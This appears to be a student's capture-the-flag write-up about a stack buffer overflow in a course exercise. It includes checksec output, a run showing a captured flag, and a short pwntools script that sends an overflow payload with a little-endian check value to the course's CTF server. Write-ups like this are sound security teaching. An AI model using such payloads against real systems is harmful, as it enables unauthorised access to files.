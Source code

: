 ```sh
[11/21/21]seed@VM:~/.../Semana5-Desafio1$ checksec program
[*] '/home/seed/ctfs/ctf5/Semana5-Desafio1/program'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[11/21/21]seed@VM:~/.../Semana5-Desafio1$ python3 exploit-example.py 
[+] Opening connection to ctf-fsi.fe.up.pt on port 4003: Done
[*] Switching to interactive mode
Echo 00000000000000000000flag.txt
I like what you got!
flag{eec724f5061da428f98387d96301917f}
[*] Got EOF while reading in interactive
$
```

We pass 20 arbitrary bytes plus `flag.txt` (8 bytes) to `scanf`, and the contents of the `flag.txt` file are printed.

## CTF - Task 2

### Questions
* What was modified?
    * A new 4-byte buffer, `val` is declared between the declarations `meme_file` and `buffer`. Before opening the file in `meme_file`, the program will check that this buffer, interpreted as a 4-byte integer, equals `0xfefc2122`. Otherwise, it will not allow us to open the file. In addition, `scanf` will now read up to 32 bytes, meaning we can still write until the end of `meme_file`.
* Do these modifications mitigate the problem in its entirety?
    * No. After writing 20 bytes to `buffer`, the next 4 bytes will be written to `val`, and these bytes cannot be arbitrary. Only a specific 4-byte sequence will allow us to successfully open the file specified by `meme_file`. If we find this sequence, we can still print the contents of `flag.txt`.
* Is it possible to overcome the mitigation using a similar technique?
    * Yes. Since the architecture is little-endian (as shown by `checksec`), the 4 `val` bytes must be written from the LSB to the MSB (`\x22\x21\xfc\xfe`).

```python3
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"00000000000000000000\x22\x21\xfc\xfeflag.txt")
r.interactive()
```

